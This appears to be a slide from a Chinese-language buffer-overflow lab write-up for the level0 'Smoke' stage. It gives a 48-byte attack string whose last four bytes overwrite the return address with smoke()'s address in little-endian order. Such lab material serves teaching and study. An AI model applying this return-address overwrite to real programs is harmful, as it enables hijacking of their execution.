

# level0:Smoke
所以，这样的攻击字符串为：
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
50 8b 04 08
总共48个字节，并且前面44个字节可以为任意值，对程序的执行没有任何影响，只要最后四个字节正确地设置为smoke() 的起始地址<0x08048b50>即可，对应内存写入 [50 8b 04 08] (小端格式)。